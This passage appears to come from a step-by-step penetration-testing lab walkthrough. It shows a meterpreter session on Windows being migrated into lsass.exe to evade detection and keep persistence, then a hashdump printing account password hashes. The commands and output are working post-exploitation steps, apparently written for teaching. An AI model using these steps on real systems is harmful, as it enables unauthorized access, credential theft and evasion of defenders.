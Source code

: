 **PERFECT!** We now have SYSTEM privileges - the highest level possible in Windows!

---

### **Step 12: Secure Our Access (Process Migration)**

**What We're Doing:** Moving our meterpreter session to a stable system process to avoid detection and maintain persistence.

#### **Commands Used:**
```bash
ps -S lsass.exe
migrate 496
```

#### **What Happened:**
```bash
meterpreter > ps -S lsass.exe
Filtering on 'lsass.exe'

Process List
============

 PID   PPID  Name       Arch  Session  User                 Path
 ---   ----  ----       ----  -------  ----                 ----
 496   404   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > migrate 496
[*] Migrating from 1592 to 496...
[*] Migration completed successfully.
```

#### **Why We Did This:**
- **lsass.exe** is the Local Security Authority process
- It's a critical system process that runs as SYSTEM
- It's less likely to be killed or detected
- It provides stable, persistent access

---

### **Step 13: Extract Password Hashes (The Ultimate Prize)**

**What We're Doing:** Dumping all user password hashes from the Windows system.

#### **Command Used:**
```bash
hashdump
```

#### **What Happened:**
```bash
meterpreter > hashdump
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c812452a634e0e0a068e6bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
